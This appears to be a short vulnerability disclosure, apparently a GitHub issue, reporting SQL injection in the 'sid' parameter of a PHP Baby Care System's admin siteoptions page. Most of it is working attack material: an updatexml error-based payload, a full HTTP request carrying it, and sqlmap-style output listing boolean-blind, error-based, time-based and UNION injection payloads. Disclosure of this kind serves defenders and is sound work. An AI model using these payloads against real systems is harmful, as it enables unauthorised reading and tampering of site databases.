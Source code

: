 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/siteoptions.php&social=edit&sid=2

![image](https://user-images.githubusercontent.com/54017627/161355814-8bce8909-9020-43dd-a492-361ab6e520e0.png)

Vulnerability location: /BabyCare/admin.php?id=siteoptions&social=edit&sid=2 //sid is Injection point

[+]Payload: /BabyCare/admin.php?id=siteoptions&social=edit&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+  //sid is Injection point

```sql
GET /BabyCare/admin.php?id=siteoptions&social=edit&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/161355703-99684aa9-cc05-46f2-8a86-60f952aa132f.png)

```sql
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=siteoptions&social=edit&sid=2' RLIKE (SELECT (CASE WHEN (4429=4429) THEN 2 ELSE 0x28 END))-- iXwH

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=siteoptions&social=edit&sid=2' AND EXTRACTVALUE(1351,CONCAT(0x5c,0x7170787a71,(SELECT (ELT(1351=1351,1))),0x71766b6b71))-- HBrb

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=siteoptions&social=edit&sid=2' AND (SELECT 7457 FROM (SELECT(SLEEP(5)))rJyk)-- Jbjw

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: id=siteoptions&social=edit&sid=2' UNION ALL SELECT CONCAT(0x7170787a71,0x7a6553456a624b4879616d74567777764c616861466e43454a6b757171564a514c63547655456d48,0x71766b6b71),NULL,NULL,NULL#
---
```
![image](https://user-images.githubusercontent.com/54017627/161355757-1c7743cd-f5e4-428d-9bec-09389cf15188.png)
